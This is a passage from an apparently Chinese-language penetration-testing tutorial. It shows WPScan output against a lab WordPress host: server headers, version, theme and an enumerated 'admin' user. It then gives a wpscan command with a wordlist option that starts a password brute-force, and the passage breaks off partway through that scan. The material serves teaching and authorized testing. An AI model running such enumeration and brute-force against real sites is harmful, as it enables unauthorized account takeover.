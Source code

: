 ```
[+] Interesting header: SERVER: Apache/2.2.22 (Debian) 
[+] Interesting header: X-POWERED-BY: PHP/5.4.4-14+deb7u8 
[+] XML-RPC Interface available under: http://192.168.41.130/xmlrpc.php 
[+] WordPress version 3.6.1 identified from meta generator 

[+] WordPress theme in use: twentythirteen v1.0 

  | Name: twentythirteen v1.0 
 | Location: http://192.168.41.130/wp-content/themes/twentythirteen/ 

[+] Enumerating plugins from passive detection ...  
No plugins found 

[+] Enumerating usernames ... 
[+] We found the following 1 user/s: 
    +----+-------+-------+ 
    | Id | Login | Name  | 
    +----+-------+-------+ 
    | 1  | admin | admin | 
    +----+-------+-------+ 

[+] Finished: Thu Apr 17 13:50:54 2014 
[+] Memory used: 2.379 MB 
[+] Elapsed time: 00:00:04 
```

从输出的信息中可以看到当前系统中只有一个用户，名为 admin。

（4）为 WPScan 指定一个 wordlist 文件，使用--wordlist <path to file>选项。执行命令如下所示：

```
root@localhost:~# wpscan -u 192.168.41.130 -e u --wordlist /root/ wordlist.txt  
_______________________________________________________________ 
        __          _______   _____                   
        \ \        / /  __ \ / ____|                  
         \ \  /\  / /| |__) | (___   ___  __ _ _ __   
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \  
           \  /\  /  | |     ____) | (__| (_| | | | | 
            \/  \/   |_|    |_____/ \___|\__,_|_| |_| 

        WordPress Security Scanner by the WPScan Team  
                        Version v2.2 
     Sponsored by the RandomStorm Open Source Initiative 
  @_WPScan_, @ethicalhack3r, @erwan_lr, @gbrindisi, @_FireFart_ 
_______________________________________________________________ 

| URL: http://192.168.41.130/ 
| Started: Thu Apr 17 13:54:51 2014 

[!] The WordPress 'http://192.168.41.130/readme.html' file exists 
[+] Interesting header: SERVER: Apache/2.2.22 (Debian) 
[+] Interesting header: X-POWERED-BY: PHP/5.4.4-14+deb7u8 
[+] XML-RPC Interface available under: http://192.168.41.130/xmlrpc.php 
[+] WordPress version 3.6.1 identified from meta generator 

[+] WordPress theme in use: twentythirteen v1.0 

  | Name: twentythirteen v1.0 
 | Location: http://192.168.41.130/wp-content/themes/twentythirteen/ 

[+] Enumerating plugins from passive detection ...  
No plugins found 

[+] Enumerating usernames ... 
```